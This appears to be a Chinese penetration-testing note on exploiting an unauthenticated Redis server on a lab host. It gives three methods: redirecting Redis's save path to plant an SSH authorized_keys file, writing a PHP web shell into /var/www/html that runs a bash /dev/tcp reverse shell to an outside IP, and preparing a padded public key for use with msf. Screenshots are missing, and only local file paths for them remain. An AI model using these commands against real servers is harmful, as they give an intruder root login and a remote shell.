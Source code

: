连接靶机 redis-cli -h 172.16.1.124

方法一：

更改redis备份路径为ssh公钥存放目录（一般默认为/root/.ssh）

并设置上传公钥的备份文件名字为authorized_keys：

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image109.png){width="5.760416666666667in"
height="2.8077504374453195in"}

**使用ssh -i id_rsa
[[root@172.16.1.124]{.underline}](http://root@172.16.1.124)**

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image110.png){width="5.760416666666667in"
height="1.698584864391951in"}

**公钥连接报错**

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image111.png){width="5.760416666666667in"
height="0.769248687664042in"}

解决方法：

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image112.png){width="5.760416666666667in"
height="2.6407305336832896in"}

**方法二如果当公钥被拒绝登录可以**

**写入反弹文件，访问就反弹，后寻找提权方法**

**config set dir /var/www/html**

**config set dbfilename 1.php**

**set xxx \"\<?php system(\"**bash -i \>& /dev/tcp/172.16.123.123/4444
0\>&1**\")?\>\"**

**方法三：**

**使用命令**(echo -e \"\\n\\n\"; cat id_rsa.pub; echo -e \"\\n\\n\") \>
key.txt #将共钥写入key.txt加"\\n\\n"以防混淆

然后使用msf

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image113.png){width="0.0in"
height="0.0in"}

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image114.png){width="4.833333333333333in"
height="0.8541666666666666in"}
